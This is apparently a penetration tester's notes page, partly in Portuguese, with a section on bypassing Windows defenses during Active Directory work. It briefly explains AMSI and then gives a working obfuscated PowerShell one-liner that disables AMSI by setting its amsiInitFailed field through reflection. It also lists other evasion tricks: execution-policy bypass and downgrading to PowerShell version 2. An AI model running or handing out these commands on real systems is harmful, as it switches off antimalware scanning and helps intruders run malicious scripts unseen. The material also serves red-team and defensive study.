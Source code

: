 
# Initial Considerations

Here will come all kinds of commands to explore AD.

# Defense Bypass

Defenses bypasss!!

## AMSI Bypass

What is AMSI?

The Anti Malware Scan Interface (AMSI) is a component from Microsoft Windows which allows an inspection of the services and scripts.

O que é AMSI? 

A Antimalware Scan Interface (AMSI) é um componente do Microsoft Windows que permite uma inspeção mais aprofundada dos serviços de script integrados.

It's almos a "grep" on the script looking for malicious patterns.

![](https://0x4rt3mis.github.io/assets/img/active-enum/AMSI.png)

To bypass it we could use comes scritps and commands that will scramble it.

The most I use is this one

```ps1
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

We can, if possible, execute the powershell on version 1.0

`C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe`

Sometimes a simple `-ep bypass` will be good too

```ps1
powershell -ep bypass
```

We can downgrade the powershell version

```ps1
powershell -version 2
```

Or upgrade it

```ps1
pwsh
```
